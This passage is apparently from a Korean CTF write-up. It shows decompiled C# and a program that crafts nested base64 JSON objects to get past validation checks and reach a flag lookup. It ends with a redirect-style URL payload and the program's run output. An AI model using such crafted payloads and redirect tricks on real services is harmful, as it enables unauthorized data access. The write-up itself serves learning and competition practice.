		// (get) Token: 0x06000016 RID: 22 RVA: 0x0000240C File Offset: 0x0000060C
		// (set) Token: 0x06000017 RID: 23 RVA: 0x00002414 File Offset: 0x00000614
		[JsonInclude]
		public int Version
		{
			[CompilerGenerated]
			get
			{
				return this.<Version>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<Version>k__BackingField = value;
			}
		}

		// Token: 0x06000018 RID: 24 RVA: 0x0000241D File Offset: 0x0000061D
		public bool IsValid()
		{
			return this.ItemState != ItemState.Removed && this.ItemState != ItemState.DeplayLoad && this.SessionState != SessionState.Unknown && this.SerializationId != null;
		}

		// Token: 0x06000019 RID: 25 RVA: 0x00002448 File Offset: 0x00000648
		public Object()
		{
		}

		// Token: 0x0400000D RID: 13
		[CompilerGenerated]
		private ItemState <ItemState>k__BackingField;

		// Token: 0x0400000E RID: 14
		[CompilerGenerated]
		private SessionState <SessionState>k__BackingField;

		// Token: 0x0400000F RID: 15
		[CompilerGenerated]
		private string <SerializationId>k__BackingField;

		// Token: 0x04000010 RID: 16
		[CompilerGenerated]
		private ulong <SerializedKey>k__BackingField;

		// Token: 0x04000011 RID: 17
		[CompilerGenerated]
		private int <Size>k__BackingField;

		// Token: 0x04000012 RID: 18
		[CompilerGenerated]
		private int <Version>k__BackingField;
	}
}
```

그러면 이제 Deserialization 하는 Object를 모두 살펴봤고, d.Type=2이 없는 StartInternalApp 안에 있는 아래와 같은 코드를 실행 시키기 위해선

```cs
if (obj.ItemState == ItemState.NoChange)
{
	result = Results.Ok((from d in this.db.DataList
	select d.Key).ToList<ulong>());
	goto IL_1FA;
}
```

아래와 같이 Serialization 코드를 작성하면 됩니다.

```cs
using System;
using System.Text.Json;
using System.Text.Json.Serialization;

namespace Challenge.Serial
{
    public enum ItemState
    {
        NoChange,
        Updated,
        Removed,
        New,
        DeplayLoad
    }

    public enum SessionState
    {
        Unknown,
        Utf8String,
        ByteArray
    }

    public class RequestForm
    {
        [JsonInclude]
        public string Fid;

        [JsonInclude]
        public string Sid;

        [JsonInclude]
        public string Key;

        [JsonInclude]
        public string Dl;

        public bool IsValid()
        {
            return this.Fid != null && this.Sid != null && this.Key != null && (this.Dl == "fa" || this.Dl == "ip") && this.Sid == "57b42dffcac451317e7b";
        }
    }

    public class Object
    {
        [JsonInclude]
        public ItemState ItemState { get; set; }

        [JsonInclude]
        public SessionState SessionState { get; set; }

        [JsonInclude]
        public string SerializationId { get; set; }

        [JsonInclude]
        public ulong SerializedKey { get; set; }

        [JsonInclude]
        public int Size { get; set; }

        [JsonInclude]
        public int Version { get; set; }

        public bool IsValid()
        {
            return this.ItemState != ItemState.Removed && this.ItemState != ItemState.DeplayLoad && this.SessionState != SessionState.Unknown && this.SerializationId != null;
        }
    }
}

namespace MainApp
{
    class Program
    {
        static void Main(string[] args)
        {

            Challenge.Serial.Object obj = new Challenge.Serial.Object
            {
                ItemState = Challenge.Serial.ItemState.NoChange, // NoChange -> point
                SessionState = Challenge.Serial.SessionState.ByteArray,
                SerializationId = "me2nuk",
                SerializedKey = 1384390124752802580,
                Size = 789,
                Version = 1
            };

            string jsonObject = JsonSerializer.Serialize(obj);
            Console.WriteLine($"Serialized Object JSON: {jsonObject}\n");

            byte[] jsonObjectBytes = System.Text.Encoding.UTF8.GetBytes(jsonObject);
            string base64ObjectEncoded = Convert.ToBase64String(jsonObjectBytes);
            Console.WriteLine($"Base64 Encoded JSON: {base64ObjectEncoded}\n\n");

            Challenge.Serial.RequestForm form = new Challenge.Serial.RequestForm
            {
                Fid = "someFid",
                Sid = "57b42dffcac451317e7b",
                Key = base64ObjectEncoded,
                Dl = "ip"
            };

            string jsonForm = JsonSerializer.Serialize(form);
            Console.WriteLine($"Serialized RequestForm JSON: {jsonForm}\n");

            byte[] jsonBytes = System.Text.Encoding.UTF8.GetBytes(jsonForm);
            string base64Encoded = Convert.ToBase64String(jsonBytes);
            Console.WriteLine($"Final Base64 Payload : {base64Encoded}\n\n");

        }
    }
}
```

obj 변수의 ItemState를 NoChange로 바꾸면 if에 걸리게 되면서 SerializedKey 즉 FLAG가 있는 DataList의 key를 얻게 됩니다.

그렇다면 얻은 FLAG가 있는 Key를 가지고 아래의 조건을 모두 통과하여 awaiter까지 가기 위해서 SessionState을 Utf8String과 다르게 하고, ItemState을 NoChange로 안 하면 됩니다.

```cs
byte[] decodedKey = Convert.FromBase64String(rf.Key);
Object obj = JsonSerializer.Deserialize<Object>(decodedKey, null);
if (obj == null || !obj.IsValid())
{
	result = Results.BadRequest("Invalid object");
	goto IL_1FA;
}
if (obj.SessionState == SessionState.Utf8String)
{
	result = Results.Ok(obj.SerializationId);
	goto IL_1FA;
}
if (obj.ItemState == ItemState.NoChange)
{
	result = Results.Ok((from d in this.db.DataList
	select d.Key).ToList<ulong>());
	goto IL_1FA;
}
awaiter = this.db.DataList.FindAsync(new object[]
{
	obj.SerializedKey
}).GetAwaiter();
```

그러면 main 메서드만 아래와 같이 수정하여 작성하면 모든 조건을 다 Pass하고 최종적으로 Flag를 조회하는 코드까지 갈 수 있게 됩니다.

```cs
Challenge.Serial.Object obj = new Challenge.Serial.Object
{
    ItemState = Challenge.Serial.ItemState.New, // NoChange IF Pass
    SessionState = Challenge.Serial.SessionState.ByteArray,// (obj.SessionState == SessionState.Utf8String) bypass
    SerializationId = "me2nuk", // dummy
    SerializedKey = 1384390124752802580, // 
    Size = 789, // dummy
    Version = 1 // dummy
};

string jsonObject = JsonSerializer.Serialize(obj);
Console.WriteLine($"Serialized Object JSON: {jsonObject}\n");

byte[] jsonObjectBytes = System.Text.Encoding.UTF8.GetBytes(jsonObject);
string base64ObjectEncoded = Convert.ToBase64String(jsonObjectBytes);
Console.WriteLine($"Base64 Encoded JSON: {base64ObjectEncoded}\n\n");

Challenge.Serial.RequestForm form = new Challenge.Serial.RequestForm
{
    Fid = "someFid",
    Sid = "57b42dffcac451317e7b",
    Key = base64ObjectEncoded,
    Dl = "ip"
};

string jsonForm = JsonSerializer.Serialize(form);
Console.WriteLine($"Serialized RequestForm JSON: {jsonForm}\n");

byte[] jsonBytes = System.Text.Encoding.UTF8.GetBytes(jsonForm);
string base64Encoded = Convert.ToBase64String(jsonBytes);
Console.WriteLine($"Final Base64 Payload : {base64Encoded}\n\n");
```

## Result

> Final Payload : /url?q=http://localtest.me%3Fd%3D\<Final Base64 Payload>%26db%3Ddummy

```bash
root@DESKTOP-6O6N8KQ:~/CSserialization# dotnet run
Serialized Object JSON: {"ItemState":3,"SessionState":2,"SerializationId":"me2nuk","SerializedKey":1384390124752802580,"Size":789,"Version":1}

Base64 Encoded JSON: eyJJdGVtU3RhdGUiOjMsIlNlc3Npb25TdGF0ZSI6MiwiU2VyaWFsaXphdGlvbklkIjoibWUybnVrIiwiU2VyaWFsaXplZEtleSI6MTM4NDM5MDEyNDc1MjgwMjU4MCwiU2l6ZSI6Nzg5LCJWZXJzaW9uIjoxfQ==


Serialized RequestForm JSON: {"Fid":"someFid","Sid":"57b42dffcac451317e7b","Key":"eyJJdGVtU3RhdGUiOjMsIlNlc3Npb25TdGF0ZSI6MiwiU2VyaWFsaXphdGlvbklkIjoibWUybnVrIiwiU2VyaWFsaXplZEtleSI6MTM4NDM5MDEyNDc1MjgwMjU4MCwiU2l6ZSI6Nzg5LCJWZXJzaW9uIjoxfQ==","Dl":"ip"}

Base64 Encoded JSON: eyJGaWQiOiJzb21lRmlkIiwiU2lkIjoiNTdiNDJkZmZjYWM0NTEzMTdlN2IiLCJLZXkiOiJleUpKZEdWdFUzUmhkR1VpT2pNc0lsTmxjM05wYjI1VGRHRjBaU0k2TWl3aVUyVnlhV0ZzYVhwaGRHbHZia2xrSWpvaWJXVXliblZySWl3aVUyVnlhV0ZzYVhwbFpFdGxlU0k2TVRNNE5ETTVNREV5TkRjMU1qZ3dNalU0TUN3aVUybDZaU0k2TnpnNUxDSldaWEp6YVc5dUlqb3hmUT09IiwiRGwiOiJpcCJ9
```